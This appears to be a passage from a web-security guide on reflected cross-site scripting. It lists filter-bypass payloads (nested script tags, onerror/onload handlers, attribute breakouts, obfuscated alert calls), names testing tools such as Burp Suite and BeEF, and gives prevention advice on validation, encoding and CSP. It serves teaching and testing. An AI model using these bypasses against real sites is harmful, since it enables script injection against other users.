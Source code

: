 
## Filter Bypass Examples

### Bypassing Script Tag Filters
Original filter blocks: `<script>alert(1)</script>`

Bypasses:
```html
<scr<script>ipt>alert(1)</script>
<img/src=1 onerror=alert(1)>
<svg/onload=alert(1)>
<body onload=alert(1)>
```

### Bypassing Attribute Filters
Original filter blocks: `" onmouseover="alert(1)`

Bypasses:
```html
'autofocus onfocus=alert(1) x='
`onmouseover=alert(1)
```

### Bypassing JavaScript Filters
Original filter blocks: `alert(1)`

Bypasses:
```javascript
eval('al'+'ert(1)')
[1].map(alert)
top['al'+'ert'](1)
```



## Tools for Testing Reflected XSS

1. **Burp Suite** - Intercept and modify requests 
2. **OWASP ZAP** - Automated scanning 
3. **XSS Hunter** - Blind XSS detection 
4. **BeEF** - Browser exploitation framework 
5. **HackVertor** - Multiple encoding options 

## Prevention Recommendations

1. **Input Validation**:
   - Whitelist allowed characters
   - Reject known malicious patterns 

2. **Output Encoding**:
   - Context-sensitive encoding (HTML, JS, CSS)
   - Use libraries like OWASP ESAPI 

3. **Content Security Policy (CSP)**:
   - Restrict script sources
   - Disable inline JavaScript 
